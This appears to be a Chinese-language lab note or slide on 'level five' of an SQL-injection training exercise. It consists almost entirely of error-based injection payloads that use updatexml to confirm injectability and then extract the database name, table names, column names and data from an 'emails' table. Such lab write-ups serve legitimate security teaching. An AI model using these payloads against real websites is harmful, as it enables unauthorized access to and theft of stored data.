

# 第五关
判断是否存在注入：?id=1' and 1=1 -- qwe

判断库名：?id=1 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe

判断表名：?id=1 'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe

判断列名：?id=1 'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe

判断数据：?id=1 'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe